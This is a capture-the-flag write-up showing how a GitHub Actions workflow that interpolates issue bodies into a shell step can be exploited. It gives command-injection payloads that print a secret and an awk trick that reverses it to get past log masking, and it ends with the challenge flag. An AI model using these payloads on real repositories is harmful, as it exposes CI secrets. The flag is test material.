 # Comments (500 points) - Github

You must solve the first challenge to get the answer, all you need is inside the Loby.

![Alt text](_images/image.png)

This problem is common in github CTF, hacking the repository with environment variables from github workflows/actions, to uncover the secrets environment variables.

Viewing the workflow yaml file we can see the following:

```yaml
name: Parse review of teacher

on:
  issues:
    types: [opened, edited]

jobs:
  parse-review:
    runs-on: ubuntu-latest
    steps:
      - name: Extract Teacher name and review from issue body
        id: extract-review
        env: 
          db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
        run: |
          TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
          REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
          echo "::set-output name=teacher::$TEACHER"
          echo "::set-output name=review::$REVIEW"
      - name: Comment on issue
        uses: actions/github-script@v5
        with:
          github-token: ${{secrets.GITHUB_TOKEN}}
          script: |
            const issueComment = {
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: ${{ github.event.issue.number }},
              body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was: 
              ${'{{ steps.extract-review.outputs.review }}'}`
            };
            github.rest.issues.createComment(issueComment);
```

So we can see that the flag is in the secrets environment variable, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with `db_pass` variable.

I see a delicious vuln in the workflow, the `github.event.issue.body` parses the body of the issue, so we can write a payload for command injection in the body of the issue to read the secrets variable.

```bash
TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
echo "::set-output name=teacher::$TEACHER"
echo "::set-output name=review::$REVIEW"
```

We can write the following payload:

```bash
'); echo $db_pass; # Review: '
```
Will be executed as:

```bash
TEACHER=$(echo ''); echo $db_pass; # Review: '
```

![Alt text](_images/image3.png)

This first test will give us a glimpse of mask `***` LMAO since the secrets variable is protected. To unmask the flag we need to reverse the string with basic `awk` for strings manipulations.

![Alt text](_images/image-4.png)

```bash
'); echo "$db_pass" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }'; # Review: '
```

![Alt text](_images/image1.png)

**FLAG:** EKO{m0ve_y0uR_b0dy}
